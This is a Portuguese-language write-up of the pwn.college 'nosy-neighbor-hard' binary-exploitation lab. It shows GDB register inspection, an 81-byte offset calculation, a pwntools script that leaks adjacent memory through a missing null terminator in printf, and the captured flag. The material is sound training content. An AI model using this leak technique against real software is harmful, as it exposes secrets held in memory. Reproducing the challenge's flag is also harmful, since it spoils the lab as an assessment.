





# pwn.college — Nosy Neighbor Hard (Memory Corruption)
### Intro to Cybersecurity · Orange Belt · Binary Exploitation

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Binary Exploitation — Memory Corruption  
> **Técnicas:** GDB · Análise de registradores · Localização de buffer via rsi · Flag leak via printf sem null byte · Vizinhança de memória · Cálculo de offset manual

---

## Descrição do Desafio

O desafio `nosy-neighbor-hard` é a versão avançada do `nosy-neighbor-easy`. A vulnerabilidade central é idêntica: `read()` não insere null byte e `printf()` imprime até encontrar `\0`, permitindo vazar o conteúdo da memória vizinha ao buffer — onde a flag foi carregada.

A diferença crucial é que **o binário não fornece nenhum endereço**. Não há leak de layout de stack, não há endereço do buffer, não há localização da flag. A saída do programa é mínima:



```
###
### Welcome to /challenge/nosy-neighbor-hard!
###

Payload size: 10
Send your payload (up to 10 bytes)!
AAAAAAAAAAa
You said: AAAAAAAAAA
Goodbye!
### Goodbye!
```

Para resolver o desafio, é necessário usar o GDB para inspecionar o binário durante a execução e descobrir manualmente: onde a flag é carregada na memória e onde o input buffer começa. Com esses dois endereços, calculamos o offset e construímos o exploit.

---

## Estratégia — O que Procurar no GDB

A flag é carregada em memória logo no início da função `challenge`. O padrão típico do pwn.college é:

1. `open("/flag", 0)` — abre o arquivo da flag
2. `read(fd, buffer_flag, size)` — lê a flag para dentro de um buffer local

O `rsi` do segundo `read` (o que lê do file descriptor aberto) aponta para onde a flag será armazenada na memória.

Para o input buffer, o binário faz outro `read` — desta vez com `rdi = 0` (stdin). O `rsi` desse `read` aponta para o início do buffer onde nosso input é armazenado.

Com os dois endereços em mãos, o offset é simplesmente a diferença entre eles.

---

## Passo 1 — Encontrando onde a Flag é Armazenada

Abrindo o binário no GDB e inspecionando o disassembly da função `challenge`, localizamos a sequência `open` → `read`:



```asm
call   open@plt                        ← abre /flag
mov    ecx, eax                        ← fd = retorno do open
mov    rax, QWORD PTR [rbp-0x168]
mov    edx, 0x100                      ← size = 256 bytes
mov    rsi, rax                        ← buffer da flag = rax
mov    edi, ecx                        ← fd = ecx
call   read@plt                        ← lê a flag para rsi
```

Colocamos um breakpoint imediatamente antes desse `read` e inspecionamos `rsi`:



```
(gdb) x/i $rip
=> 0x62030ae1740f <challenge+166>:    call   0x62030ae17140 <read@plt>
(gdb) x/x $rsi
0x7ffe2afe35b1:    0x00000000
```

**A flag será armazenada a partir de `0x7ffe2afe35b1`.**

---

## Passo 2 — Encontrando o Início do Input Buffer

Continuamos a execução até o segundo `read` — o que lê o input do usuário via stdin (`rdi = 0`). Esse `read` está em `challenge+264`:



```
(gdb) x/i $rip
=> 0x62030ae17471 <challenge+264>:    call   0x62030ae17140 <read@plt>
(gdb) x/x $rsi
0x7ffe2afe3560:    0x00000000
```

**O input buffer começa em `0x7ffe2afe3560`.**

---

## Passo 3 — Calculando o Offset

Com os dois endereços descobertos via GDB, o cálculo é direto:

```python
>>> print(0x7ffe2afe35b1 - 0x7ffe2afe3560)
81
```

O offset entre o início do input buffer e o início da flag é **81 bytes**. Isso significa que, se preenchermos o buffer com exatamente 81 bytes sem null byte, o `printf` — ao imprimir nossa string — não encontrará `\0` ao final e continuará lendo a memória seguinte, revelando a flag.

---

## O Exploit

O exploit é simples: informar `81` como payload size e enviar `81 * 'A'`. O `read` escreve 81 bytes sem inserir null byte. O `printf` começa a imprimir, percorre os 81 `A`s, não encontra `\0`, e continua imprimindo o que vem a seguir — a flag.

```python
from pwn import *

PATH = '/challenge/nosy-neighbor-hard'

p = process(PATH)

p.sendline(b"81")
p.sendline(b"A" * 81)

print(p.recvall().decode())
```

---

## Resultado Final



```
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApwn.college{Y9KEE1G0Zvt8T2J8TWap_67HQtW.dhDMzwCOzYTNxEzW}
```

O `printf` imprimiu os 81 `A`s e, sem encontrar null byte, continuou lendo a memória vizinha — revelando a flag diretamente na saída padrão.

---

## Resumo do Fluxo de Exploração

```
1. Binário não fornece nenhum endereço → tudo descoberto via GDB
2. GDB: breakpoint antes do read() que lê /flag → rsi = 0x7ffe2afe35b1 (onde a flag é salva)
3. GDB: breakpoint antes do read() que lê stdin (rdi=0) → rsi = 0x7ffe2afe3560 (início do buffer)
4. Offset = 0x7ffe2afe35b1 - 0x7ffe2afe3560 = 81 bytes
5. Payload: 81 bytes de A → buffer cheio sem null byte
6. printf() ultrapassa o buffer → imprime a flag da memória vizinha
```

---

## Conceitos Importantes

**Identificando leituras no disassembly:** em chamadas a `read(fd, buf, size)`, os argumentos seguem a convenção de chamada x86-64 — `rdi` = fd, `rsi` = buffer, `rdx` = size. Ao inspecionar `rsi` imediatamente antes do `call read@plt`, obtemos diretamente o endereço do buffer destino.

**Distinguindo os dois `read`s:** o binário faz dois `read`s distintos. O primeiro lê a flag do arquivo (`rdi` = file descriptor retornado pelo `open`). O segundo lê nosso input do stdin (`rdi = 0`). Identificar qual é qual é fundamental — o `rsi` de cada um nos dá os dois endereços necessários.

**Offset como tamanho do payload:** a distância entre o início do buffer de input e o início da flag é exatamente o número de bytes que precisamos enviar. Não é necessário transbordar — basta preencher o buffer sem deixar null byte, e o `printf` faz o resto.

**Hard vs Easy:** a versão easy entrega todos os endereços na saída do programa. A versão hard exige análise dinâmica com GDB para descobrir os mesmos endereços manualmente. A técnica de exploração é idêntica — a diferença está inteiramente no processo de reconhecimento.
